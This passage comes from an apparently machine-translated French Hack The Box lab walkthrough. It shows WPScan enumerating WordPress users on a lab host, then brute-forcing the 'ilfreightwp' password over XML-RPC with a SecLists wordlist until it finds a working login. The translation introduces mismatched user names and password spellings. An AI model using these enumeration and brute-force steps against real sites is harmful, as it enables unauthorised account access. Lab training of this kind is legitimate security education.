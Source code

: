 ```
  | Confirmé par : Messages d'erreur de connexion (détection agressive)

[+] Jacques
  | Trouvé par : Identifiant de l'auteur Brute Forcing - Motif de l'auteur (détection agressive)
  | Confirmé par : Messages d'erreur de connexion (détection agressive)

[+] Jean
  | Trouvé par : Identifiant de l'auteur Brute Forcing - Motif de l'auteur (détection agressive)
  | Confirmé par : Messages d'erreur de connexion (détection agressive)

[!] Aucun jeton d'API WPScan n'a été fourni, par conséquent, les données de vulnérabilité n'ont pas été générées.
[!] Vous pouvez obtenir un jeton API gratuit avec 25 requêtes quotidiennes en vous inscrivant sur https://wpscan.com/register

[+] Terminé : lun. 20 juin 23:14:33 2022
[+] Demandes effectuées : 28
[+] Requêtes mises en cache : 37
[+] Données envoyées : 8,495 Ko
[+] Données reçues : 269 719 Ko
[+] Mémoire utilisée : 176,859 Mo
[+] Temps écoulé : 00:00:0

```

On retrouve plusieurs utilisateurs :

- ilfreightwp
-   à M
-   James
-   John

Essayons de forcer brutalement l'un des mots de passe du compte en utilisant [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) liste de mots de `SecLists` GitHubdépôt. En utilisant `WPScan` à nouveau, nous obtenons un résultat pour le compte `ilfreightwp` .

```
dsgsec@htb[/htb]$ wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

<SNIP>

[+] Effectuer une attaque par mot de passe sur Xmlrpc contre 1 utilisateur/s
[SUCCÈS] - ilfreightwp / mot de passe1
Essayer ilfreightwp / 123123 Heure : 00:00:00 <=== > (10 / 109) 9.17% ETA : ??:??:??

[!] Combinaisons valides trouvées :
  | Nom d'utilisateur : ilfreightwp, Mot de passe : password1

[!] Aucun jeton d'API WPScan n'a été fourni, par conséquent, les données de vulnérabilité n'ont pas été générées.
[!] Vous pouvez obtenir un jeton API gratuit avec 25 requêtes quotidiennes en vous inscrivant sur https://wpscan.com/register

[+] Terminé : lun. 20 juin 23:31:34 2022
[+] Demandes effectuées : 186
[+] Requêtes mises en cache : 7
[+] Données envoyées : 54,2 Ko
[+] Données reçues : 253 754 Ko
[+] Mémoire utilisée : 241,836 Mo
[+] Temps écoulé : 00:00:16

```
